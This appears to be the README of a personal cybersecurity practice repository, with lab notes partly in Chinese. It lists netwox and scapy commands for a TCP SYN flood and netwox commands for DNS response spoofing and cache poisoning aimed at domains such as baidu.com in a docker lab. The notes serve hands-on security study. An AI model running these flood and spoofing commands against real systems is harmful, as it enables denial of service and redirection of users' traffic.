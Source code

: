 # Cyber-security-practice
ALL cyber-security-practice, include exploit loophole , web attack ,cryptographic, system explotation, developing tools and so on
## TCP协议漏洞利用
- `sysctl -w net.ipv4.tcp_syncookies=0/1`
- netwox `sudo netwox 76 -i IP -p PORT`
- scapy `python syn_flood.py`
- `syn_flood.c`  \
比较syn-cookies启用和不启用的情况下，攻击的效果（攻击前后，用telnet或者nc连接目标主机端口进行测试）
## DNS攻击
- 环境配置 
> - 修改`resolv.conf`
> - 启动bind9服务，`dig www.baidu.com`
> - 添加区域条目
- Netwox用户响应欺骗攻击
> - `sudo netwox 105 -h "www.baidu.com" -H "1.2.3.4" -a "ns.baidu.com" -A "1.2.3.5" `
- Netwox缓存中毒攻击
> - `sudo netwox 105 -h "www.qq.com" -H "1.2.3.4" -a "ns.cse04xr.com" -A "1.2.3.5" -f "src host IP" -d docker0 -T 600 `
- 远程DNS缓存中毒攻击
> - dns上使得`ns.xr.net`指向攻击机 `172.17.0.1`
> - 在user 中`dig www.example.com`
> - `udp.c`
> - 观察dns缓存

